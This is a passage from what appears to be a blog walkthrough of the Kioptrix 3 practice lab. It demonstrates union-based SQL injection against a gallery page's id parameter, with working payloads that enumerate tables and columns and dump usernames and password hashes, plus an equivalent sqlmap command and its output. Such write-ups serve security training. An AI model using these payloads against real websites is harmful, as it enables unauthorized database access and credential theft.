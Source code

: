 <img src="/img/blog/kioptrix3/kioptrix3-04.png">

Unfortunately explaining the whole idea behind these injections would take ages. I recommend either `SqlMap` (check below) or learning [manual injecting](http://www.hackingarticles.in/manual-sql-injection-exploitation-step-step/) before reading the rest. So, do you see the URL? Changing `id=1` to `id='` causes a query error.

<img src="/img/blog/kioptrix3/kioptrix3-05.png"> 

Tadaa! SQL Injection is possible! Time to dump database contents for passwords & usernames :). 

Start out with `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,2,3,4,5,6#` to find out how many injectable columns the database has *(ORDER BY testing could be used as well)*. 

<img src="/img/blog/kioptrix3/kioptrix3-06.png">

We are able to see columns 2 and 3. Now we can substitute these numbers with SQL commands like **@@version** or **database()** - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,@@version,database(),4,5,6#`

<img src="/img/blog/kioptrix3/kioptrix3-07.png">

Dump all tables within our database() output - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,table_name,NULL,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#` 

<img src="/img/blog/kioptrix3/kioptrix3-08.png">

Knowing the table names, choose an interesting one and dump its columns - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,column_name,NULL,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#`

<img src="/img/blog/kioptrix3/kioptrix3-09.png"> 

Result shows us 3 columns of interest:

* id
* password
* username

Great! That's exactly what we want. All that remains is one last command which will present us with the sweet credentials - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,CONCAT(username,';',id,';',password),NULL,4,5,6 FROM dev_accounts`

<img src="/img/blog/kioptrix3/kioptrix3-10.png"> 

The `CONCAT()` just connects all 3 column contents into one statement with a semicolon `;` as delimeter. Ultimately, you can use SqlMap which automates the attack.

```console
root@EdgeOfNight:~# sqlmap -u kioptrix3.com/gallery/gallery.php?id=1 -T dev_accounts --dump

---CUT CUT CUT---

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+

---CUT CUT CUT---
```
